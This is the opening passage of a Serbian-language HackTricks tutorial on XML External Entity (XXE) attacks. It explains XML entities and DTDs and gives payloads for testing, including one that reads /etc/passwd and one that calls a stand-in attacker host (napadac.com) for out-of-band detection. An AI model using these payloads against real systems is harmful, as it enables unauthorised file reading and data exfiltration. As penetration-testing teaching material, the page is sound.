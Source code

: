 # XXE - XEE - XML External Entity

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Osnove XML-a

XML je označni jezik dizajniran za skladištenje i prenos podataka, sa fleksibilnom strukturom koja omogućava korišćenje opisno nazvanih oznaka. Razlikuje se od HTML-a po tome što nije ograničen na skup unapred definisanih oznaka. Značaj XML-a je opao sa porastom JSON-a, uprkos njegovoj početnoj ulozi u AJAX tehnologiji.

* **Prikaz podataka putem Entiteta**: Entiteti u XML-u omogućavaju prikaz podataka, uključujući posebne karaktere poput `&lt;` i `&gt;`, koji odgovaraju `<` i `>` kako bi se izbegli konflikti sa XML-ovim sistemom oznaka.
* **Definisanje XML elemenata**: XML omogućava definisanje tipova elemenata, opisujući kako bi elementi trebalo da budu strukturirani i koji sadržaj mogu sadržati, od bilo kog tipa sadržaja do specifičnih podređenih elemenata.
* **Definicija Tipa Dokumenta (DTD)**: DTD-ovi su ključni u XML-u za definisanje strukture dokumenta i tipova podataka koje može sadržati. Mogu biti interni, eksterni ili kombinovani, vodeći načinom formatiranja i validacije dokumenata.
* **Prilagođeni i Spoljni Entiteti**: XML podržava kreiranje prilagođenih entiteta unutar DTD-a za fleksibilno prikazivanje podataka. Spoljni entiteti, definisani URL-om, izazivaju sigurnosne probleme, posebno u kontekstu napada spoljnim XML entitetima (XXE), koji iskorišćavaju način na koji XML parseri obrađuju spoljne izvore podataka: `<!DOCTYPE foo [ <!ENTITY myentity "vrednost" > ]>`
* **Detekcija XXE sa Parametarskim Entitetima**: Za otkrivanje XXE ranjivosti, posebno kada konvencionalne metode ne uspevaju zbog sigurnosnih mera parsera, mogu se koristiti XML parametarski entiteti. Ovi entiteti omogućavaju tehniku detekcije van opsega, poput pokretanja DNS upita ili HTTP zahteva ka kontrolisanom domenu, radi potvrde ranjivosti.
* `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`
* `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://napadac.com" > ]>`

## Glavni napadi

[**Većina ovih napada je testirana korišćenjem sjajnih Portswiggers XEE laboratorija: https://portswigger.net/web-security/xxe**](https://portswigger.net/web-security/xxe)

### Test Novog Entiteta

U ovom napadu testiraću da li jednostavna deklaracija novog ENTITETA radi

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
<productId>&toreplace;</productId>
<storeId>1</storeId>
</stockCheck>
```
